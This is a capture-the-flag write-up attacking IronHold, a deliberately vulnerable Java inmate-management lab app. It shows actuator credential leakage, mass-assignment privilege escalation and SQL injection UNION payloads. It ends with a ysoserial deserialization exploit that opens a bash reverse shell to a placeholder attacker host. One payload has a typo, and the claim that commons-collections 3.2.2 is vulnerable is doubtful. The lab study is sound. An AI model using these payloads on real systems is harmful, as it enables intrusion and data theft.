







# IronHold
>IronHold is retiring its inmate-management platform. Somewhere in the handover, a developer pushed the complete repository to a public mirror and then left the company. Facility security wants a straight answer before the system goes dark for good: if that repository is out there, how far could someone actually get?

>We start with nothing but what leaked: the full, unredacted source, and a live copy of the application still running on the network. No credentials, no map, no walkthrough. The code tells us what the developers got wrong; the running instance tells us if we're right.

>Get all four and Ironhold's last system goes down the same way it went up: on its own mistakes.
Download the source archive attached to this task and start reading. The lab machine is reachable at http://MACHINE_IP:8080.

## Task archive
After downloading task files and unzipping them, we explore the codebase a bit starting with configuration files.
### pom.xml
Exploring this file we discovered the app is using spring framework, version 2.7.18, h2database and commons collections 3.2.2, the last two will be useful later.
### application.properties (/src/main/resources/application.properties)
Here we discovered that there are only two endpoints excluded from public access namely `heapdump, threaddump` and all other are exposed.
```Java
management.endpoints.web.exposure.include=*
management.endpoints.web.exposure.exclude=heapdump,threaddump
management.endpoint.health.show-details=always
```
Another notable setting here is that the DB is kept in memory:
`spring.datasource.url=jdbc:h2:mem:ironhold;DB_CLOSE_DELAY=-1`,
which should not reach production.

One can also notice here that password to account kiosk is under variable name app.kiosk.pw,
for warden account is app.warden.password and flags are stored in app.flag{1,3}.secret.
From this file we can see that logging level is always set to info.

**Next, we start reading over the code.**
### Starting with src/main/java/com/ironhold/
We used `grep -ri pass .` to see if there were any passwords left hardcoded into the code.
Discovering a lookup account in *config/DataAccessConfig.Java*, whose credentials turned out useless based on the comment in the `provisionLookupAccount()` function comment stating it has only read permissions. 

In the file */seed/DataSeeder.Java* we discovered RNG instantiated with seed 42, names for officers and password:
```Java
String fillerHash = passwordEncoder.encode("<REDACTED>");
String[][] officers = {
        {"j.reyes", "Officer J. Reyes", "O-104"},
        {"m.chen", "Officer M. Chen", "O-118"},
        {"a.osei", "Officer A. Osei", "O-129"},
        {"l.bianchi", "Officer L. Bianchi", "O-142"},
};
```
and a database update
```Java
jdbcTemplate.update(
        "INSERT INTO case_files (case_number, title, summary, status, opened_at) VALUES (?, ?, ?, ?, ?)",
        "IA-2024-007", "Internal Affairs Review", flag2, "OPEN",
        LocalDateTime.now().minusMonths(3));

```
In the file *WebMvConfig.Java* we discovered that `/actuator/**` endpoint is open publicly.

## Starting the machine
Now it is time to start the machine to see the app itself and look at the actuator endpoint.
### /actuator/env
Here, we noticed that warden and officers passwords are redacted, but kiosk.pw is there in plaintext with username kiosk. Using this, we log in to the app without any issues. Obtaining the first flag.

### The app
Browsing a bit we noticed there are multiple endpoints with text inputs, however checking /src/main/java/com/ironhold/controller/<endpoint_related_conrtoller.Java> revealed mostly nothing, save for account update and inmate search.
### Account update
Using burp we intercepted the account update, using which, we changed our badge number from K-000 to W-001 (the warden's badge). This did not let us access any of the admin endpoints (obviously, as the check is performed on the role and not the badge) but inspecting the profile controller, we noticed nothing else is being restricted from updating:
```Java
@PostMapping("/profile/update")
public String update(@ModelAttribute Staff staff, HttpSession session) {
    Staff current = staffRepository.findByUsername(SessionUtil.currentUsername(session));

    current.setFullName(staff.getFullName());
    current.setEmail(staff.getEmail());
    if (staff.getBadgeNumber() != null && !staff.getBadgeNumber().isBlank()) {
        current.setBadgeNumber(staff.getBadgeNumber());
    }
    if (staff.getRole() != null && !staff.getRole().isBlank()) {
        current.setRole(staff.getRole());
    }

    staffRepository.save(current);
    return "redirect:/profile";
}
```
Hence, exploiting this mass assignment using burp repeater we assigned ourself the warden role, which allowed us to access the admin panel, revealing another flag on the Admin panel.

### Inmate search
Inspecting the inmate search, we noticed that the search query is directly embedded into the SQL query, pointing to SQLi
```Java
  @GetMapping("/inmates/search")
public String search(@RequestParam(required = false) String q, Model model) {
    List<Map<String, Object>> results;
    if (q == null || q.isBlank()) {
        results = jdbcTemplate.queryForList("SELECT id, name, block FROM inmates");
    } else {
        String sql = "SELECT id, name, block FROM inmates WHERE name = '" + q + "'";
        results = jdbcTemplate.queryForList(sql);
    }
    model.addAttribute("results", results);
    model.addAttribute("query", q == null ? "" : q);
    return "inmate-search";
}
```
Using the knowledge of the column names from the code above, we crafted a payload to test the SQLi
`' UNION SELECT id, name, block FROM inmates WHERE id=7 -- - `

This turned out nicely. Next there were two possibilities of getting another flag.
Firstly, from the database update above we noticed that there is a database named CASE_FILES with columns id, summary, title (can be viewed in the *model/CaseFile.Java*). So, using analogous query as for the PoC we obtained another flag `' UNION SELECT id, summary, title FORM CASE_FILES -- - `.

Secondly, we could view the h2 [documentation](https://h2database.com/html/systemtables.html#information_schema_table_privileges) and enumerate table name and grantee
`' UNION SELECT 1, TABLE_NAME, GRANTEE FROM INFORMATION_SCHEMA.TABLE_PRIVILEGES -- - `

This reveleals the case file table as well and we can obtain the flag just as in the first case.

## RCE
Inspecting the admin controller (*controller/AdminController.Java*) file, we discovered the endpoint **/admin/settings**, which accepts bulk import/export. We tried exporting it first and observed that it is base64 encoded serialized object. Reading through the *controller/ImportExportController.Java*, we observe that the import unserializes the base64 object and reconstructs it (line 7):
```Java
@PostMapping(value = "/admin/import", consumes = MediaType.ALL_VALUE)
@ResponseBody
public ResponseEntity<String> importData(@RequestBody String body) {
    try {
        byte[] decoded = Base64.getDecoder().decode(body.trim());
        try (ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(decoded))) {
            Object restored = ois.readObject();
            return ResponseEntity.ok("Batch accepted: " + restored.getClass().getSimpleName());
        }
    } catch (Exception e) {
        log.warn("Bulk import failed to deserialise: {}", e.toString());
        return ResponseEntity.status(HttpStatus.INTERNAL_SERVER_ERROR)
                .body("Import failed: batch could not be read.");
    }
}
```
and confirms the reconstruction.
We test if the service accepts the POST object from us using curl.
```bash
COOKIE=<session_cookie>
DATA=<bulk_exported_data>

curl -s -X POST http://<TARGET_IP>:8080/admin/import --cookie "JSESSIONID=$COOKIE" -d $DATA -H "Content-Type: text/plain" -v
```

This command returns Batch accepted, so we know it works.

From the *pom.xml* we read at the beginning we know, that the service uses obsolete version of CommonsCollections 3.2.2. using [ysoserial](https://github.com/frohoff/ysoserial) CommonsCollections6, we craft a serialized payload. Ysoserial splits the payload on space character, so we need to bypass this.
```bash
shell=$(echo 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1' | base64) # bypass space splitting
payload=$(java --add-opens java.base/java.util=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections6 "bash -c {echo,$shell}|{base64,-d}|{bash,-i}" | base64 -w0)
nc -nvlp <PORT> # spawning a listener
curl http://<TARGET_IP>:8080/admin/import --cookie "JSESSIONID=$COOKIE" -d $payload -H 'Content-Type: text/plain' # sending the payload.
```
After the curl command we should obtain the connection from our reverse shell.
We can try some commands like whoami or id, but in the end we want to find the flag, which
should be quite simple using the command `find / -iname "*flag*"` and reading its content gives the last flag.

